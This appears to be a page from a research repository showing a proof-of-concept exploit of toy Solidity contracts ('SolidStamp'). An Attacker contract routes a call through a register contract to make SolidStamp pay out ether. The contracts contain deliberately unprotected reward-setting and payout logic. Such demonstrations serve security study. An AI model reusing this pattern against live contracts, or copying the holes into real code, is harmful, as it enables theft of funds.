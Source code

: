 ## Exploits of Figure 2

[<<< Back to main page](../README.md)

#### Attack Flow

Attacker -> SolidStampRegister -> SolidStamp --trasfer ethers--> Attacker

#### Attacker Contract

```javascript
contract Attacker {
    address solidStampRegister;
    uint count=0;
        
    function setAddress ( address _solidStampRegister ) public payable
    {
        solidStampRegister = _solidStampRegister;
    }
        
    function attak() public 
    {
            
        SolidStampRegister(solidStampRegister).registerAudit("Hello");
    }
        
    constructor() payable public {}
        
    function () public payable {}
        
    function getBalance() public view returns (uint)
    {
        return address(this).balance;
    }
}
```

#### SolidStampRegister Contract

```javascript
contract SolidStampRegister {
    address solidStamp;
    
    function setAddress  ( address _solidStamp ) public payable
    {
        solidStamp = _solidStamp;
    }
        
    function registerAudit( bytes32 _codehash) public 
    {
        
        SolidStamp(solidStamp).audContract(msg.sender);
    }
        
    function () public payable {}
        
    constructor() payable public {}

    function getBalance() public view returns (uint)
    {
        return address(this).balance;
    }
}
```

#### SolidStamp Contract

```javascript
contract SolidStamp {
    uint [3] Rewards = [0,0,0];
    address SolidStampRegisterAddress;

    constructor (address _SolidStampRegisterAddress ) public payable
    {
        SolidStampRegisterAddress = _SolidStampRegisterAddress;
    }

    modifier onlyRegister() {
        require(msg.sender == SolidStampRegisterAddress, "can be only run by SolidStampRegister contract");
        _;
    }
    
    function audContract( address _auditor ) public onlyRegister
    {
        uint reward = Rewards[2];
        _auditor.transfer(reward);
    }
        
    function () public payable {}

    function getBalance() public view returns (uint)
    {
        return address(this).balance;
    }

    function setReward(uint t) public payable
    {
        Rewards[2] = t;
    }
}
```

#### Running Screenshots

![](./attack02.jpg)